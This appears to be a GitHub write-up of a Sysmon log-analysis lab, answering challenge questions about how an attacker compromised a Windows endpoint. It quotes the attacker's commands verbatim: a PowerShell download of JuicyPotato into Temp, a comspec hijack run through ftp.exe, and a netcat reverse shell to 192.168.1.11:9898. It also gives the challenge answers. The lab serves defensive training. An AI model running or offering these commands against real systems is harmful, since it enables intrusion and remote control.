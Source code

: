 # Sysmon Mini Project

**System Monitor (Sysmon)** is a Windows system service and device driver that provides detailed monitoring of operating system activity, including process monitoring and network activity. This information can be beneficial in understanding various exploitation techniques.

A zipped file is provided to assist in solving the challenges. 

**Download the “Sysmon logs.zip”** and enter the password **“blto”** to access the files.

---

### Tools/Utilities Used:
- Text Editor
- Linux CLI

---

## Scenario

You are provided with Sysmon logs from a compromised endpoint. Analyze the logs to identify the steps and techniques used by the attacker.

---

## Challenges

### 1. What is the file that gave access to the attacker?
**Answer:** `updater.hta`

- The first event with the associated IP shows that `chrome.exe` was used to download an HTA file named `updater.hta` from the identified IP address.

### 2. What is the PowerShell cmdlet used to download the malware file and what is the port?
**Answer:** `Invoke-WebRequest`, Port: `6969`

![Log](https://github.com/prakharvr02/Sysmon-Mini-Project/blob/main/Log%20Analysis%20Images/1.webp)

- The log indicates that the attacker utilized the `Invoke-WebRequest` PowerShell cmdlet to download a file named `supply.exe` from the IP `192.168.1.11` using port `6969`.

  - **IP Address:** 192.168.1.11
  - **Port No:** 6969
  - **PowerShell Cmdlet:** Invoke-WebRequest

### 3. What is the name of the environment variable set by the attacker?
**Answer:** `comspec=c:\Windows\temp\supply.exe`

- **Explanation:** The environment variable `comspec` points to what appears to be a malicious executable.

### 4. What is the process used as a LOLBIN to execute malicious commands?
**Answer:** `ftp.exe`

- **Explanation:** “LOLbin” stands for “Living Off the Land Binary.” It refers to legitimate system binaries that can be exploited for malicious purposes. Where logs indicate a new event following the setting of the `comspec` variable:

![Log](https://github.com/prakharvr02/Sysmon-Mini-Project/blob/main/Log%20Analysis%20Images/2.webp)

- The command executed is `cmd \c set comspec=C:\windows\temp\supply.exe`, followed by the execution of `ftp.exe`, which utilizes the new environment variable.

### 5. What is the first command executed by the malware?
**Answer:** `ipconfig`

- **Explanation:** The command `C:\\windows\\temp\\supply.exe /c "ipconfig"` is observed, indicating an initial network configuration check.

### 6. Based on dependency events, what language is the malware written in?
**Answer:** `Python`

![Log](https://github.com/prakharvr02/Sysmon-Mini-Project/blob/main/Log%20Analysis%20Images/3.webp)

### 7. Malware then downloads a new file. What is the full URL?
**Answer:** `https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`

- **Explanation:** The command line for `supply.exe` indicates:
```
  C:\windows\temp\supply.exe /c "powershell -c Invoke-WebRequest -Uri https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe -OutFile C:\Windows\Temp\juice.exe"
```


This command downloads `JuicyPotato.exe` from the specified URL and saves it as `juice.exe` in the Temp folder.

### 8. What port does the attacker try to use for a reverse shell?
**Answer:** `9898`

![Log](https://github.com/prakharvr02/Sysmon-Mini-Project/blob/main/Log%20Analysis%20Images/4.webp)

- **Explanation:** The attacker uses `juicy.exe` to establish a netcat shell back to their system with the command:

```
  juicy.exe -l 9999 -p nc.exe -a "192.168.1.11 9898 -e cmd.exe"
```


In summary, the command sets up a connection to a remote system (`192.168.1.11` at port `9898`) and executes `cmd.exe` on that system using the `nc.exe` payload.

---

**Note:** Always ensure that you have permission to analyze any logs or systems you encounter and that you are following ethical guidelines.
